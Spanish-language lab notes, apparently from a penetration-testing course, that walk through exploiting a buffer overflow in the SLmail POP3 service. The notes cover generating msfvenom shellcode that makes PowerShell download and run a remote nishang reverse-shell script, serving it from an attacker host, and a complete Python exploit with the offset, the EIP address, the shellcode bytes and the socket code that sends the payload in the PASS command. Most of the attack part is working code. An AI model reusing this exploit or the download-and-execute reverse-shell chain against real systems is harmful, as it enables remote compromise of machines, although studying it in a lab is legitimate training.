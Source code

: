 Imaginemos que queremos ejecutar un comando en especificifico para eso podemos utilizar payloads como “**windows/exec**” para cargar directamente el comando que se desea ejecutar en la variable **CMD** del payload. Esto permite crear un nuevo shellcode que, una vez interpretado, ejecutará directamente la instrucción deseada entonces podemos utlizar la siguiente estructura de comando

```bash
msfvenom -p windows/exec CMD="<comando>" --platform so -a estructura -e encoder -b badchars EXITFUNC=threads
```

Entonces sabiendo esto podemos hacer tratar de ejecutar este comando 


![[Pasted image 20240310195914.png]]

Este comando nos generaria un shellcode que ejecuta un comando PowerShell para descargar y ejecutar un script remoto en un sistema Windows entonces lo que podemos incluir en este script que va a ejecutar la maquina windows es una reverse shell la base del script que vamos a utlizar se encuentra en este link https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1  con este ya descargado y con el nombre que indicamos al hacer el shellcode hacemos una leve modificacion la cual es copiar la siguiente parte del codigo


![[Pasted image 20240310212530.png]]


Y ahora la pegamos justo al final del script y especificamos la direccion ip y puerto desde el que estas en escucha esto lo indicarias en esta parte 


![[Pasted image 20240310201947.png]]

Ahora los siguiente que tendrimaos que hacer es montarno un servidor en la maquina atacante con la ayuda de python 

![[Pasted image 20240310213029.png]]

Seguidamente nos ponemos en escucha desdes la maquina atacante por el puerto especificado en el script

![[Pasted image 20240310213138.png]]


Entonces ahora generamos nuestro shellcode con el comando que vimos anteriormente 

![[Pasted image 20240310213309.png]]

Este nos lo copiamos y lo integramos en nuestro exploit por lo que ya modificado quedaria de la siguiente manera


```python
#!/usr/bin/python3.11
from struct import pack

import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=pack("<L",0x5f4c4d13)

shellcode=(b"\xda\xd7\xd9\x74\x24\xf4\xba\xf1\x92\xa3\x55\x5e\x33\xc9"
b"\xb1\x44\x31\x56\x1a\x03\x56\x1a\x83\xee\xfc\xe2\x04\x6e"
b"\x4b\xd7\xe6\x8f\x8c\xb8\x6f\x6a\xbd\xf8\x0b\xfe\xee\xc8"
b"\x58\x52\x03\xa2\x0c\x47\x90\xc6\x98\x68\x11\x6c\xfe\x47"
b"\xa2\xdd\xc2\xc6\x20\x1c\x16\x29\x18\xef\x6b\x28\x5d\x12"
b"\x81\x78\x36\x58\x37\x6d\x33\x14\x8b\x06\x0f\xb8\x8b\xfb"
b"\xd8\xbb\xba\xad\x53\xe2\x1c\x4f\xb7\x9e\x15\x57\xd4\x9b"
b"\xec\xec\x2e\x57\xef\x24\x7f\x98\x43\x09\x4f\x6b\x9a\x4d"
b"\x68\x94\xe9\xa7\x8a\x29\xe9\x73\xf0\xf5\x7c\x60\x52\x7d"
b"\x26\x4c\x62\x52\xb0\x07\x68\x1f\xb7\x40\x6d\x9e\x14\xfb"
b"\x89\x2b\x9b\x2c\x18\x6f\xbf\xe8\x40\x2b\xde\xa9\x2c\x9a"
b"\xdf\xaa\x8e\x43\x45\xa0\x23\x97\xf4\xeb\x29\x66\x8b\x91"
b"\x1c\x68\x93\x99\x30\x01\xa2\x12\xdf\x56\x3b\xf1\x9b\xb9"
b"\xde\xd0\xd1\x51\x46\xb1\x5b\x3c\x79\x6f\x9f\x39\xf9\x9a"
b"\x60\xbe\xe1\xee\x65\xfa\xa6\x03\x14\x93\x42\x24\x8b\x94"
b"\x47\x54\x44\x1c\x02\xe7\xe9\x8a\xa9\x6b\x62\x6b\x78\x31"
b"\x22\x43\x34\xdc\xa5\xbe\x87\x7c\x20\xa4\x74\xf5\x94\x68"
b"\x1f\x81\xfa\x23\xba\x0b\x40\xa0\x2d\xa9\x28\x4c\x84\x1f"
b"\xd1\xc3\xa1\x31\x75\x73\x2c\xaa\xd6\xff\xdc\x5b\xb7\x98"
b"\x08\xbb\x2f\x13\x3c\xb3\x95\xf4\x93\x02\xd3\x38\xc5\x55"
b"\x15\x05\x37\xa6\x77\x44\x75\xfe\xa8\xf6\x2a\xd0\xc6\x85"
b"\xfd\x0b\x0e\x6a")


payload=before_eip+eip+b"\x83\xEC\x10"+shellcode 

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()




```


Entonces antes de todo reiniciamos el servicio de SLmail y ya reiniciado entonces ahora si podemos ejecutar el exploit

![[Pasted image 20240310215706.png]]

Entonces ahora podemos ver que se ha realizado una peticion por el metodo get al recurso que indicamos y aparte hemos ganado acceso a la maquina

![[Pasted image 20240310220046.png]]

Y listo hemos logrado comprometeer la maquina y hemos logrado explotar exitosamente el buffer overflow


Por ultimo a modo de consejo puede que haya ocasiones en las que tengamos muchos badchars y a lo mejor el encoder shikata ga nai no es capaz de generate un shellcode que no tenga estos badchars asi que simplemtente borramos donde especificamos el encoder

![[Pasted image 20240310220851.png]]


